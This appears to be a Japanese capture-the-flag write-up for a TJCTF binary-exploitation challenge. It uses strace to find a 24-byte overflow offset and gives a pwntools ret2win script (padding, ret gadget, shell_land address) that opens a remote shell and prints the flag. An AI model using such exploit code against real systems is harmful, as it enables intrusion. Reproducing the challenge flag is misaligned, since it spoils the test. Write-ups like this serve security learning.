```c
void main() {
  setbuf(stdout, NULL);
  vacation();
  puts("hmm... that doesn't sound very interesting...");
}
```

straceでSISGSEGVが発生する境界を見つけたあとは、アラインメント用のretシンボルを流し、shell_landのシンボルを流しました。

```bash
$ python3 -c 'print("A"*24)' | strace -i ./challp
...
[00007f88756c8549] fstat(0, {st_mode=S_IFIFO|0600, st_size=0, ...}) = 0
[00007f88756cf2bb] brk(NULL)            = 0x22eb000
[00007f88756cf2bb] brk(0x230c000)       = 0x230c000
[00007f88756c9002] read(0, "AAAAAAAAAAAAAAAAAAAAAAAA\n", 4096) = 25
[000000000040000a] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_ACCERR, si_addr=0x40000a} ---
[????????????????] +++ killed by SIGSEGV +++
Segmentation fault
```

```python
from pwn import *

binfile = "./challp"
context.binary = binfile
elf = ELF(binfile)

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]

shell_land = elf.symbols['shell_land']
HOST='tjc.tf'
PORT=31680

conn = remote(HOST, PORT)
conn.recvuntil(b'Where am I going today?\n')

# padding + ret(8byte, allignment) + fun(=/bin/sh)
payload = b'A' * 24 + p64(ret) + p64(shell_land)

conn.sendline(payload)
conn.interactive()
```

```bash
% python3 solver.py
[*] 'chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './chall'
[+] Opening connection to tjc.tf on port 31680: Done
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
tjctf{wh4t_a_n1c3_plac3_ind33d!_7609d40aeba4844c}
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to tjc.tf port 31680
```